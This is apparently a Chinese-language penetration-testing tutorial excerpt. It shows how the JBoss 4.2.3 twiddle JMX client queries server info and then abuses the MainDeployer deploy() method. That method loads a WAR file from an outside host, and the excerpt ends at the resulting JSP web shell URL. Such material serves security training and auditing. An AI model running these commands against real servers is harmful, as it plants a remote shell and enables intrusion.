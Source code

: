 ```
$ sh jboss-4.2.3.GA/bin/twiddle.sh -h
A JMX client to ’twiddle’ with a remote JBoss server.
usage: twiddle.sh [options] <command> [command_arguments]
options:
    -h, --help                   Show this help message
        --help-commands          Show a list of commands
    -H=<command>                 Show command specific help
-c=command.properties            Specify the command.properties file to use
-D<name>[=<value>]               Set a system property
--                               Stop procession options
-s, --server=<url>               The JNDI URL of the remote server
-a, --adapter=<name>             The JNDI name of the RMI adapter to user
-u, --user=<name>                Specify the username for authentication
-p, --password=<name>            Specify the password for authentication
-q, --quiet                      Be somewhat more quiet 
```

有了 twiddle，就用可用命令行通过 RMI 调用 JBoss 应用服务器的 MBeans。Windows 下是 twiddle.bat，Linux 下是 twiddle.sh 来启动 twiddle。类似于 JMX 控制台，MBEAN 的属性可读可改，并且可以调用其方法。

显示 MBean 服务器的信息

```
$ ./twiddle.sh -s scribus get jboss.system:type=ServerInfo
ActiveThreadCount=50
AvailableProcessors=1
OSArch=amd64
MaxMemory=518979584
HostAddress=127.0.1.1
JavaVersion=1.6.0_06
OSVersion=2.6.24-19-server
JavaVendor=Sun Microsystems Inc.
TotalMemory=129957888
ActiveThreadGroupCount=7
OSName=Linux
FreeMemory=72958384
HostName=scribus
JavaVMVersion=10.0-b22
JavaVMVendor=Sun Microsystems Inc.
JavaVMName=Java HotSpot(TM) 64-Bit Server VM 
```

##### 安装 redteam.war

根据 twiddle 的帮助利用 deploy()方法安装 war 文件。

```
$ ./twiddle.sh -s scribus invoke jboss.system:service=MainDeployer deploy http://www.redteam-pentesting.de/redteam.war 
```

通过下面的 URL 访问 shell：

```
http://scribus:8080/redteam/redteam-shell.jsp 
```

